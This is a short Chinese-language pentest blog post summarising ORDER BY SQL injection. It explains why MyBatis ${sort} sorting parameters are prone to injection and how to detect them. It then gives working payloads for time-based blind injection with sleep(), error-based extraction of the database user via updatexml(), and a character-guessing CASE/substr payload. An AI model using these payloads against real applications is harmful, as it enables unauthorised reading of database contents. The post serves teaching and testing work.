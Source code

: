```yaml
---
layout: post
title: Order by 注入总结
categories: [Pen-test]
Description: Order by 注入总结
keywords: SQL
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```




Description: Order by 注入总结。



## 判断order by注入



当你看到一个查询结果有排序小箭头时，要额外注意，这可能一个SORT(排序)键值，抓包后可能是这样的。



![](/images/orderbysql/1.png)



后端SQL语句就差不多类似



```shell

select * from table where id =1 order by zzf desc;

```



这种地方在java-mybatis环境中容易引发注入问题，原因很简单，在mybatis中order by ${sort}传的是列名不能用#{}，因此需要额外用白名单处理。有的开发没处理就有注入了。



如何判断这里有order by注入呢？很简单，原理跟最基础的联合注入利用order by爆破字段数量是一样的。

order by (1)  不报错

order by (10000000) 报错



这样就基本能判断出来这里有order by注入了。

当然也可以直接order by sleep(1)。



## order by注入利用



### 时间盲注



能用sleep(1)就能构造最简单的基于时间延迟的布尔盲注。



select * from test_table order by if(1=1,sleep(1),1);



![](/images/orderbysql/swappy-20241204-164412.png)



> 但它有个很大的缺点，就是有几条数据就重复几次sleep(1)。



### 报错注入



经典的updatexml()



```shell

select * from test_table  order by updatexml(1,concat(0x7e,(select user()),0x7e),1);

```



![](/images/orderbysql/swappy-20241204-164602.png)



## FUZZ



```shell

(case when substr(CURRENT_USER,1,1)='r' then rand(exp(99999999)) else 1 end)

```



![](/images/orderbysql/swappy-20241204-164812.png)

